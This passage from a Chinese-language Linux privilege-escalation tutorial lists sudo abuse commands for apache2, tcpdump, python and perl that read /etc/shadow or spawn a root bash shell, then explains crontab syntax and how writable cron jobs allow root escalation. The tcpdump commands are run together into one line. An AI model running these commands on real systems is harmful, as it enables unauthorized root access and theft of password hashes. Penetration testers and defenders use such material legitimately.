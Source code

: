 **apache**

仅可查看文件，不能弹 shell：

apache2 -f /etc/shadow

**tcpdump**

echo $’id\ncat /etc/shadow’ > /tmp/.testchmod +x /tmp/.testsudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root

**python/perl/ruby/lua/php/etc**

**python**

python -c “import os;os.system(‘/bin/bash’)”

**perl**

exec “/bin/bash”;

**0x008 linux 提权—利用定时任务（Cron jobs）**
------------------------------------

如果未正确配置 Cronjob，则可以利用该 Cronjob 获得 root 特权。

1. Cronjob 中是否有可写的脚本或二进制文件？  
2. 我们可以覆盖 cron 文件本身吗？  
3. cron.d 目录可写吗？

Cronjob 通常以 root 特权运行。如果我们可以成功篡改 cronjob 中定义的任何脚本或二进制文件，那么我们可以以 root 特权执行任意代码。

### 什么是 Cronjob？

Cron Jobs 被用于通过在服务器上的特定日期和时间执行命令来安排任务。它们最常用于 sysadmin 任务，如备份或清理 / tmp / 目录等。Cron 这个词来自 crontab，它存在于 / etc 目录中。

例如：在 crontab 内部，我们可以添加以下条目，以每 1 小时自动打印一次 apache 错误日志。

<table width="677"><tbody><tr><td width="253" valign="top">1</td><td width="253" valign="top">1&nbsp;0&nbsp;*&nbsp;*&nbsp;*&nbsp;printf&nbsp;“”&gt;&nbsp;/var/log/apache/error_log</td></tr></tbody></table>

前五个数字值表示执行 cronjob 的时间。现在让我们了解五个数字值。

*   分钟–第一个值表示介于 0 到 59 之间的分钟范围，而 * 表示任何分钟。
    
*   小时–第二个值表示小时范围在 0 到 24 之间，* 表示任何小时。
    
*   月中的某天–第三个值表示月中的某日，范围是 1 到 31，* 表示任何一天。
    
*   月–第四个值表示 1 到 12 之间的月份范围，* 表示任何月份。
    
*   星期几–第五个值表示从星期天开始的星期几，介于 0 到 6 之间，* 表示星期几。
    

**简而言之呢，**crontab **就是一个自定义定时器。**

### Cron 特权升级概述

cron 守护程序计划在指定的日期和时间运行命令。它与特定用户一起运行命令。因此，我们可以尝试滥用它来实现特权升级。
